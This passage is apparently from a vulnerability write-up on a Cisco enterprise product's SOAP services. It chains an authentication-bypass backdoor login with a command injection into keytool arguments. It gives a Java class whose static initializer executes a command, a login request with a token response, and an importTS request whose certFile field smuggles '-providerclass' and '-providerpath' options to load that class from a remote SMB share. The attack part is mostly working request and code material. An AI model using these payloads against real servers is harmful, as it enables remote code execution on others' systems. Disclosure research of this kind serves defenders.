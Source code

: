 <p markdown="1" class="cn">But we are in the context of `keytool.exe`, so we can really only inject into *it's* arguments. As it [turns out](https://docs.oracle.com/en/java/javase/11/tools/keytool.html), we can use the `providerclass` and `providerpath` arguments to load a remote Java class from an SMB share and gain remote code execution! All we need to do is have some code inside of the provided classes static initializer.</p> 

```java
import java.io.*;
public class Si{
    static{
        try{
            Runtime rt = Runtime.getRuntime();
            Process proc = rt.exec("calc");
        }catch (IOException e){}
    }
}
```

<p markdown="1" class="cn">Keep in mind, our target uses version *Java 1.8u201* so we need to compile the class with the same major version! Once we have done that, we can login to the `/LogonWSService/LogonWS` endpoint with the backdoor account we created from our [authentication bypass](#trustedclienttokenvalidator-authentication-bypass-vulnerability).</p>

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ep="http://ep.jaxws.dcbu.cisco.com/">
   <soapenv:Header/>
   <soapenv:Body>
      <ep:requestToken>
         <username>hacker</username>
         <password>Hacked123</password>
         <expiration>100000</expiration>
      </ep:requestToken>
   </soapenv:Body>
</soapenv:Envelope>
```

<p markdown="1" class="cn">The server responds with a token.</p>

```xml
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><ns1:requestTokenResponse xmlns:ns1="http://ep.jaxws.dcbu.cisco.com/"><return>xWPX64FmO4F4AfCSjjV1U5kwTMgS3OTgkjf8829Bi+o=</return></ns1:requestTokenResponse></soap:Body></soap:Envelope>
```

<p markdown="1" class="cn">Now we can trigger the remote class load via the command injection and gain remote code execution!</p>

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ep="http://ep.san.jaxws.dcbu.cisco.com/">
    <SOAP-ENV:Header xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
        <m:token xmlns:m="http://ep.jaxws.dcbu.cisco.com/">xWPX64FmO4F4AfCSjjV1U5kwTMgS3OTgkjf8829Bi+o=</m:token>
    </SOAP-ENV:Header>
   <soapenv:Body>
      <ep:importTS>
         <certFile>" -providerclass Si -providerpath "\\vmware-host\Shared Folders\tools</certFile>
         <serverIPAddress></serverIPAddress>
      </ep:importTS>
   </soapenv:Body>
</soapenv:Envelope>
```
